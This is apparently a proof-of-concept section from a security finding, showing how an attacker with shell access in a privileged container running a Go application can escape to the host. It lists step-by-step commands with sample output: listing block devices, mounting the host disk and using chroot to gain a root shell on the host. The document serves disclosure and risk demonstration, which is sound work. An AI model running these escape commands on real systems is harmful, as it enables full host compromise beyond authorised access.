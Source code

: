 ### Proof of Concept (PoC)
(Assuming an attacker has gained shell access to the privileged container where the Go application runs)

1.  **Gain shell access to the privileged container:** This often occurs through an application vulnerability (e.g., command injection, deserialization vulnerability, exposed API endpoint) in the Go application itself.
2.  **Verify privileged status:**
    ```bash
    root@privileged-container:/app# ls -la /dev/sda
    brw-rw---- 1 root disk 8, 0 Jan 1 00:00 /dev/sda
    # The presence of block devices like /dev/sda indicates device access.
    # Also, try:
    root@privileged-container:/app# fdisk -l
    # This command would list host disk partitions if privileged.
    ```
3.  **Mount the host filesystem (container escape):**
    ```bash
    root@privileged-container:/app# mkdir /host_root
    root@privileged-container:/app# mount /dev/sda1 /host_root
    # Assuming /dev/sda1 is the root partition of the host. An attacker would need to discover the correct device.
    root@privileged-container:/app# ls /host_root
    # This should show the host's root directory contents (e.g., etc, home, usr, var).
    ```
4.  **Achieve root on host (via `chroot`):**
    ```bash
    root@privileged-container:/app# chroot /host_root /bin/bash
    # You are now in a root shell on the host system.
    host-root@host-machine:/# whoami
    root
    host-root@host-machine:/# hostname
    # This will be the host machine's hostname, not the container's.
    ```
This PoC demonstrates a full host compromise, highlighting the extreme risk.
